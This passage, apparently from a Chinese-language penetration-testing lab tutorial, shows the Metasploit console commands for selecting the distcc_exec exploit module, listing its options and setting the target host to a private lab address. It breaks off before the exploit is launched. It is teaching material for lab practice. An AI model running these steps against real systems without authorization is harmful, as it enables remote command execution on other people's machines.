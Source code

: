 
在 Kali 的 MSF 终端中，使用 `use` 命令，使用相应的模块：

```
# 使用 use 命令对模块进行使用
use exploit/unix/misc/distcc_exec
```

![图片描述](../imgs/1483509242282.png-wm.png)


接着再使用 `show options` 命令，显示模块参数信息：

```
# 使用命令 show options 查看模块属性名
show options
```

![图片描述](../imgs/1480001711639.png-wm.png)

```
# 利用 set 命令，设置渗透目标主机参数 RHOST 为 192.168.122.102
set RHOST 192.168.122.102
```

![图片描述](../imgs/1480002814943.png-wm.png)

